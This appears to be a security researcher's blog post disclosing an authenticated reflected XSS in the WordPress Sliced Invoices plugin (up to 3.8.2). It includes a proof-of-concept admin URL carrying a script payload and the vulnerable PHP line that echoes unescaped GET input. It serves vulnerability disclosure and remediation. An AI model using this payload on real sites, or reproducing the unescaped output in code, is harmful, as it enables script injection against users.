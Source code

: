```yaml
---
layout: post
title: Wordpress Sliced Invoices <= 3.8.2 Authenticated Reflected XSS
date: 2019-10-22 17:33 -0300
categories: [my_exploits, offensive_security]
tags: [ exploit, vulnerability,Cross-site scripting (reflected), sliced, invoice, Authenticated]
---
```


![Wordpress Sliced Invoices <= 3.8.2 Authenticated Reflected XSS](/uploads/Screenshot from 2019-10-22 23-55-40.png)

Wordpress Sliced Invoices plugin with a version lower then 3.8.2 is affected by an authenticated Reflected Cross-site scripting (XSS) vulnerability.

#### Intial submission of the vulnerability

``````markdown
# Exploit Title: Wordpress Sliced Invoices <= 3.8.2 Authenticated Reflected XSS Vulnerability
# Date: 22-10-2019
# Exploit Author: Lucian Ioan Nitescu
# Contact: https://twitter.com/LucianNitescu
# Webiste: https://nitesculucian.github.io
# Vendor Homepage: https://slicedinvoices.com/
# Software Link: https://wordpress.org/plugins/sliced-invoices/
# Version: 3.8.2
# Tested on: Ubuntu 18.04 / Wordpress 5.3
 
1. Description:  
 
Wordpress Sliced Invoices plugin with a version lower then 3.8.2 is affected by an authenticated Reflected Cross-site scripting (XSS) vulnerability.

2. Proof of Concept: 
 
Reflected Cross-site scripting (XSS)
- Using an Wordpress user, access < your_target > /wp-admin/admin.php?action=duplicate_quote_invoice&post=%3Cscript%3Ealert(1)%3C%2fscript%3E
- The response will contain:
```
<body id="error-page">
	<p>Creation failed, could not find original invoice or quote: <script>alert(1)</script></p></body>
</html>
```

``````

#### Detailed analysis of the vulnerability

Under `wp-content/plugins/sliced-invoices/admin/class-sliced-admin.php` at line number `2236` we can observe the following unescaped output of user-supplied data:

```php
wp_die('Creation failed, could not find original invoice or quote: ' . $post_id);
```

Where the `$post_id` variable is assigned on line `2154` as:

```php
/*
* get the original post id
*/
$post_id = (isset($_GET['post']) ? $_GET['post'] : $_POST['post']);
```

This vulnerability could be easily exploited by accessing `example.com/wp-admin/admin.php?action=duplicate_quote_invoice&post=%3Cscript%3Ealert(1)%3C%2fscript%3E` where `example.com` is your target.

#### How to fix

Update to the latest available version of the Sliced Invoices plugin.

#### Public appearances

- Packet Storm: [https://packetstormsecurity.com/files/154952/WordPress-Sliced-Invoices-3.8.2-Cross-Site-Scripting.html](https://packetstormsecurity.com/files/154952/WordPress-Sliced-Invoices-3.8.2-Cross-Site-Scripting.html)

#### Other references

- WPVDB: [https://wpvulndb.com/vulnerabilities/9920](https://wpvulndb.com/vulnerabilities/9920)
